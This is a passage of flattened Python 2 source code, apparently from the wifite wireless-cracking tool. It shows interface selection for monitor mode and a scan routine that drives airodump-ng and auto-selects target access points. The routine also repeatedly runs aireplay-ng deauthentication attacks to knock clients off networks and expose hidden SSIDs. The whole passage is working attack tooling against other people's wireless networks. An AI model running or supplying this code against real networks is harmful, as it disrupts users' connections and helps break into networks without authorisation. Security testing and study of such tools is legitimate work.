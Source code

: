 monitors.count(self.RUN_CONFIG.WIRELESS_IFACE) > 0: monitor = monitors[0][:monitors[0].find('\t')] return self.enable_monitor_mode(monitor) elif len(monitors) == 1: monitor = monitors[0][:monitors[0].find('\t')] if monitor.startswith('phy'): monitor = monitors[0].split()[1] return self.enable_monitor_mode(monitor) print GR + " [+]" + W + " available wireless devices:" for i, monitor in enumerate(monitors): print " %s%d%s. %s" % (G, i + 1, W, monitor) ri = raw_input( GR + " [+]" + W + " select number of device to put into monitor mode (%s1-%d%s): " % (G, len(monitors), W)) while not ri.isdigit() or int(ri) < 1 or int(ri) > len(monitors): ri = raw_input(" [+] select number of device to put into monitor mode (%s1-%d%s): " % (G, len(monitors), W)) i = int(ri) monitor = monitors[i - 1][:monitors[i - 1].find('\t')] return self.enable_monitor_mode(monitor) def scan(self, channel=0, iface='', tried_rtl8187_fix=False): """ Scans for access points. Asks user to select target(s). "channel" - the channel to scan on, 0 scans all channels. "iface" - the interface to scan on. must be a real interface. "tried_rtl8187_fix" - We have already attempted to fix "Unknown error 132" Returns list of selected targets and list of clients. """ airodump_file_prefix = os.path.join(self.RUN_CONFIG.temp, 'wifite') csv_file = airodump_file_prefix + '-01.csv' cap_file = airodump_file_prefix + '-01.cap' remove_airodump_files(airodump_file_prefix) command = ['airodump-ng', '-a', # only show associated clients '--write-interval', '1', # Write every second '-w', airodump_file_prefix] # output file if channel != 0: command.append('-c') command.append(str(channel)) command.append(iface) proc = Popen(command, stdout=DN, stderr=DN) time_started = time.time() print GR + ' [+] ' + G + 'initializing scan' + W + ' (' + G + iface + W + '), updates at 1 sec intervals, ' + G + 'CTRL+C' + W + ' when ready.' (targets, clients) = ([], []) try: deauth_sent = 0.0 old_targets = [] stop_scanning = False while True: time.sleep(0.3) if not os.path.exists(csv_file) and time.time() - time_started > 1.0: print R + '\n [!] ERROR!' + W # RTL8187 Unknown Error 132 FIX if proc.poll() is not None: # Check if process has finished proc = Popen(['airodump-ng', iface], stdout=DN, stderr=PIPE) if not tried_rtl8187_fix and proc.communicate()[1].find('failed: Unknown error 132') != -1: send_interrupt(proc) if self.rtl8187_fix(iface): return self.scan(channel=channel, iface=iface, tried_rtl8187_fix=True) print R + ' [!]' + O + ' wifite is unable to generate airodump-ng output files' + W print R + ' [!]' + O + ' you may want to disconnect/reconnect your wifi device' + W self.RUN_CONFIG.exit_gracefully(1) (targets, clients) = self.parse_csv(csv_file) # Remove any already cracked networks if configured to do so if self.RUN_CONFIG.SHOW_ALREADY_CRACKED == False: index = 0 while index < len(targets): already = False for cracked in self.RUN_CONFIG.CRACKED_TARGETS: if targets[index].ssid.lower() == cracked.ssid.lower(): already = True if targets[index].bssid.lower() == cracked.bssid.lower(): already = True if already == True: targets.pop(index) index -= 1 index += 1 # If we are targeting a specific ESSID/BSSID, skip the scan once we find it. if self.RUN_CONFIG.TARGET_ESSID != '': for t in targets: if t.ssid.lower() == self.RUN_CONFIG.TARGET_ESSID.lower(): send_interrupt(proc) try: os.kill(proc.pid, SIGTERM) except OSError: pass except UnboundLocalError: pass targets = [t] stop_scanning = True break if self.RUN_CONFIG.TARGET_BSSID != '': for t in targets: if t.bssid.lower() == self.RUN_CONFIG.TARGET_BSSID.lower(): send_interrupt(proc) try: os.kill(proc.pid, SIGTERM) except OSError: pass except UnboundLocalError: pass targets = [t] stop_scanning = True break # If user has chosen to target all access points, wait 20 seconds, then return all if self.RUN_CONFIG.ATTACK_ALL_TARGETS and time.time() - time_started > 10: print GR + '\n [+]' + W + ' auto-targeted %s%d%s access point%s' % ( G, len(targets), W, '' if len(targets) == 1 else 's') stop_scanning = True if self.RUN_CONFIG.ATTACK_MIN_POWER > 0 and time.time() - time_started > 10: # Remove targets with power < threshold i = 0 before_count = len(targets) while i < len(targets): if targets[i].power < self.RUN_CONFIG.ATTACK_MIN_POWER: targets.pop(i) else: i += 1 print GR + '\n [+]' + W + ' removed %s targets with power < %ddB, %s remain' % \ (G + str(before_count - len(targets)) + W, self.RUN_CONFIG.ATTACK_MIN_POWER, G + str(len(targets)) + W) stop_scanning = True if stop_scanning: break # If there are unknown SSIDs, send deauths to them. if self.RUN_CONFIG.SEND_DEAUTHS and channel != 0 and time.time() - deauth_sent > 5: deauth_sent = time.time() for t in targets: if t.ssid == '' or '\x00' in t.ssid or '\\x00' in t.ssid: print "\r %s deauthing hidden access point (%s) \r" % \ (GR + sec_to_hms(time.time() - time_started) + W, G + t.bssid + W), stdout.flush() # Time to deauth cmd = ['aireplay-ng', '--ignore-negative-one', '--deauth', str(self.RUN_CONFIG.WPA_DEAUTH_COUNT), '-a', t.bssid] for c in clients: if c.station == t.bssid: cmd.append('-c') cmd.append(c.bssid) break cmd.append(iface) proc_aireplay = Popen(cmd, stdout=DN, stderr=DN) proc_aireplay.wait() time.sleep(0.5) else: for ot in old_targets: if ot.ssid == '' and ot.bssid == t.bssid: print '\r %s successfully decloaked "%s" ' % \ (GR + sec_to_hms(time.time() - time_started) + W, G + t.ssid + W) old_targets = targets[:] if self.RUN_CONFIG.VERBOSE_APS and len(targets) > 0: targets = sorted(targets, key=lambda t: t.power, reverse=True) if not self.RUN_CONFIG.WPS_DISABLE: wps_check_targets(targets, cap_file, verbose=False) os.system('clear') print GR + '\n [+] ' + G + 'scanning' + W + ' (' + G + iface + W + '), updates at 1 sec intervals, ' + G + 'CTRL+C' + W + ' when ready.\n' print " NUM ESSID %sCH ENCR POWER WPS? CLIENT" % ( 'BSSID ' if self.RUN_CONFIG.SHOW_MAC_IN_SCAN else '') print ' ---